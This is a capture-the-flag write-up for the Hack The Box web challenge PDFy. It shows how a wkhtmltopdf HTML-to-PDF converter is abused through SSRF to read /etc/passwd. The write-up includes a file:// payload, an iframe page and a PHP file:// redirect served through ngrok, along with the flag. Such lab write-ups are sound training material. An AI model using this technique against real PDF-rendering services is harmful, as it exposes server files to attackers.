





# PDFy
> Challenge: [PDFy](https://app.hackthebox.com/challenges/PDFy)
> 
> **CHALLENGE DESCRIPTION**
> 
> Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!

## Summary

## Solution
Firstly, when I saw that the application received url input, I tried payload `file:///etc/passwd` but it didn't work.


Then, I decided to model the function of this application



Request-response are captured in Burp Proxy



We can realize that after we put a valid url into the application, a PDF document is generated. In details, these PDF files are saved in `/static/pdfs`



I also tried to traverse path in this folder with `wfuzz` but it didn't work too.

That I tried to explore the framework used in converting HTML to PDF with some forensics:
+ In the application's log
    

+ I also searched in Gemini about frameworks in HTML to PDF and confirm that `wkhtmltopdf` is used in this application
+ This framework has some vulnerabilities :)))) https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/#exploitation

Now I will host a PHP server and public it with `ngrok`. Create `index.html` and `index.php` in current folder
+ `index.html`
```html
<!DOCTYPE html>
<body>
<iframe src="http://<ngrok_ip>:<port>/index.php?x=/etc/passwd" 
              style="height:1000px;width:1000px"></iframe>
</body>
</html>
```
+ `index.php`
```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```
Host the server: `$ php -S 127.0.0.1:5555`

Public with `ngrok`: `$ ngrok tcp 5555`

**Payload:**`http://0.tcp.ap.ngrok.io:11610/index.html`

Put it into the application 


**Flag:** `HTB{pdF_g3n3r4t1on_g03s_brrr!}`


